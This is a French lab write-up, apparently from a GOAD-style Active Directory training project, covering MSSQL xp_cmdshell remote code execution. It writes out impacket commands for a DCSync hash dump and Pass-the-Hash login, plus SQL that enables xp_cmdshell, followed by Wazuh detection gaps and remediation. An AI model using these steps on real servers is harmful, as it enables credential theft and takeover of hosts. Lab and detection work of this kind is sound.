



# ⚔️ Attaque 10 — MSSQL (xp_cmdshell RCE)

| | |
|---|---|
| **Catégorie** | Lateral Movement / Execution |
| **MITRE ATT&CK** | [T1210](https://attack.mitre.org/techniques/T1210/) · [T1059.003](https://attack.mitre.org/techniques/T1059/003/) (xp_cmdshell) |
| **Fiche théorique** | [`../../docs/03-lateral-movement/16-psexec-wmi-winrm.md`](../../docs/03-lateral-movement/16-psexec-wmi-winrm.md) |
| **Cible** | `CASTELBLACK\SQLEXPRESS` (SRV02 · 192.168.56.22) — SQL Server 2019 |
| **Compte attaquant** | `sql_svc` (compte de service, **sysadmin**) — hash volé par DCSync |
| **Outil** | impacket — `mssqlclient.py`, `secretsdump.py` |
| **Statut détection Wazuh** | 🔴 Angle mort (audit de création de processus désactivé) |

---

## 1. 🧠 Description

> **Le concept en une phrase :** un serveur SQL mal configuré permet d'exécuter des commandes système directement via des requêtes SQL — un attaquant avec un compte sysadmin peut prendre le contrôle complet du serveur.

Un serveur **MSSQL** dans un AD est bien plus qu'une base de données. Il expose des fonctions système dangereuses :

| Fonction | Danger |
|---|---|
| **xp_cmdshell** | exécuter des **commandes système** (cmd.exe) via une requête SQL → RCE 🚨 |
| **EXECUTE AS / impersonation** | se faire passer pour `sa` (super-admin SQL) |
| **Linked servers** | rebondir vers d'autres instances SQL sur le réseau |

**La chaîne de compromission ici :**
1. DCSync a fourni le hash de `sql_svc` (compte de service SQL)
2. `sql_svc` est **sysadmin** sur l'instance SQLEXPRESS
3. L'attaquant s'authentifie avec le hash (Pass-the-Hash) et active `xp_cmdshell`
4. Il exécute des commandes système sur le serveur `castelblack`

**MSSQL tourne sous le compte `sql_svc`** → `xp_cmdshell` exécute les commandes avec ses privilèges sur l'OS.

## 2. 🎯 Prérequis

- Un accès réseau à l'instance MSSQL (port 1433)
- Un compte **sysadmin** sur l'instance — ici `sql_svc`, dont le hash a été récupéré par [DCSync](06-dcsync.md)

## 3. 💻 Exécution

### Étape 1 — Reconnaissance avec un compte lambda (confirmer que sql_svc est sysadmin)

```bash
mssqlclient.py -windows-auth sevenkingdoms.local/tywin.lannister:powerkingftw135@192.168.56.22
```

Au prompt SQL :
```sql
SELECT IS_SRVROLEMEMBER('sysadmin');  -- renvoie 0 (tywin n'est pas sysadmin)
```

→ Constat : même un Domain Admin n'est pas sysadmin ici — seul `sql_svc` l'est.

### Étape 2 — Récupérer le hash de `sql_svc` (via DCSync)

```bash
secretsdump.py 'north.sevenkingdoms.local/eddard.stark:FightP3aceAndHonor!@192.168.56.11' -just-dc-user sql_svc
```

→ `sql_svc:1121:...:84a5092f53390ea48d660be52b93b804:::`



### Étape 3 — Se connecter en `sql_svc` et exécuter des commandes

```bash
mssqlclient.py -windows-auth north.sevenkingdoms.local/sql_svc@192.168.56.22 -hashes :84a5092f53390ea48d660be52b93b804
```

Au prompt SQL :
```sql
SELECT IS_SRVROLEMEMBER('sysadmin');  -- renvoie 1 ✓
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
EXEC xp_cmdshell 'hostname & ipconfig';
```


## 4. 📤 Résultat

`xp_cmdshell whoami` renvoie **`north\sql_svc`** et `hostname` renvoie **`castelblack`** → **exécution de commandes système confirmée** sur le serveur membre. RCE réussie : l'attaquant contrôle maintenant `castelblack`, un hôte supplémentaire qui n'avait pas encore été compromis directement.

## 5. 🛡️ Détection dans Wazuh — 🔴 angle mort

| Recherche (DQL) | Résultat | Lecture |
|---|---|---|
| `data.win.system.eventID:4688` | **0 hit** | audit de **création de processus non activé** → le `cmd.exe` est invisible |
| `data.win.eventdata.parentProcessName:*sqlservr*` | **0 hit** | aucune trace du `cmd.exe` lancé par SQL Server |
| `agent.name:castelblack` | **78 hits** | logs présents, mais **que du bruit** (logons normaux) |

**Event Windows concerné : `4688`** (création de processus) — le signal parfait (un `cmd.exe` avec parent `sqlservr.exe`) mais **non collecté**.






## 6. 🎓 Analyse & leçon

> **Le RCE silencieux par excellence.** Sans l'audit de création de processus (Event 4688) ni Sysmon, un `cmd.exe` lancé par `sqlservr.exe` est totalement invisible. La signature idéale de cette attaque — un processus enfant de SQL Server qui exécute des commandes système — n'est simplement pas collectée par défaut.

**Ce qu'il faut retenir :**
- L'audit `4688` (création de processus avec ligne de commande) est désactivé par défaut — c'est le manque le plus critique pour détecter les RCE.
- Une fois activé, le pattern est très parlant : `sqlservr.exe → cmd.exe → whoami` → c'est la signature exacte d'un `xp_cmdshell`.
- La règle `100013` (Phase 5) couvre ce cas : alerter quand `sqlservr.exe` spawn un processus fils.

## 7. 🔧 Remédiation

- **Désactiver `xp_cmdshell`** et le maintenir désactivé via une GPO ou une policy SQL Server.
- Faire tourner le service SQL avec un compte à **privilèges minimaux** (gMSA, pas sysadmin inutile).
- **Activer l'audit de création de processus** (4688 avec ligne de commande) ou **Sysmon** (Event 1) et alerter sur les enfants de `sqlservr.exe`.
- Protéger les comptes de service contre le Kerberoasting (mot de passe fort ≥ 25 caractères, ou gMSA).

---

⬅️ Retour à l'[index des attaques](../03-attaques.md)
